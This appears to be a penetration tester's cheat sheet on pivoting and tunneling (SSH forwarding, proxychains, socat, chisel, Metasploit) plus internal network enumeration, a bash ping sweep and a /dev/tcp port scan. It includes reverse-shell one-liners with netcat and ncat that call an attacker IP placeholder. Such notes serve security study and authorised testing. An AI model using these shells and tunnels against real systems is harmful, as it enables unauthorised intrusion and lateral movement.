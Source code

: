 # Pivoting
> 27.01.2024
---

## Port forwarding and Tunneling:

![[pivoting.webp]]

1. **SSH Tunneling:**
- Local Port Forwarding: `ssh -L [local_port]:[target_host]:[target_port] user@pivot_host`
- Remote Port Forwarding: `ssh -R [remote_port]:[target_host]:[target_port] user@pivot_host`

2. **Proxychains:**
- Install and configure Proxychains to route traffic through a series of proxy servers. Example usage: `proxychains command_to_run`

3. **Netcat (nc) and Socat:**
- Create a reverse shell: `nc -e /bin/bash [attacker_ip] [port]`
- Establish a tunnel with socat: `socat TCP-LISTEN:[local_port],fork TCP:[target_host]:[target_port]`

4. **Metasploit Framework:**
- Use modules like `exploit/multi/ssh/sshexec` to execute commands on a remote system.
- Meterpreter shells provide advanced pivoting capabilities.

5. **SSH Dynamic Port Forwarding:**
- `ssh -D [local_port] user@pivot_host`
- Configure your browser or other tools to use a SOCKS proxy on the specified local port.
 
6. **HTTP Tunneling with SSH:**
- Use tools like `corkscrew` to tunnel arbitrary TCP connections through an HTTP proxy.

7. **PowerShell Remoting:**
- Enable PowerShell Remoting on Windows systems and use `Enter-PSSession` or `Invoke-Command` to execute commands remotely.

8. **ProxyChains for Command Execution:**
- Use ProxyChains with various tools like nmap or curl to route traffic through proxy servers.

9. **WMI (Windows Management Instrumentation):**
- Use tools like `wmic` or PowerShell to execute commands on remote Windows systems.

10. **Reverse Shell with Ncat:**
- `ncat --exec "/bin/bash -i" -l -p [port]` on the attacker machine.
- `ncat [attacker_ip] [port]` on the victim machine.

11. **Tunneling with chisel:**
- Download [Chisel](https://github.com/jpillora/chisel/releases)
- On the victim machine : `./chisel server --reverse --port PORT`
- On the attacker machine: `./chisel client SERVER_IP:PORT R:TARGET_HOST:TARGET_PORT:REMOTE_PORT`

## Enumerate information stored in the network:

- `arp -a` this will show all the cached ip addresses that the network has communicated with and through.
- Static mapping can be found on the same in the /etc/hosts file of linux or `C:\Windows\System32\drivers\etc\hosts on Windows`
- `/etc/resolv.conf` also helps us to identify local DNS servers, which can be misconfigured to allow something like DNS Zone transfer attacks.
- On Windows, the easiest way to check the DNS servers for an interface is with `ipconfig /all`
- Linux has an equivalent command as an alternative to reading the resolv.conf file: `nmcli dev show`

**Internal ping sweep:**
```bash
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done
```

**Port scanning with bash:***
```bash
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```
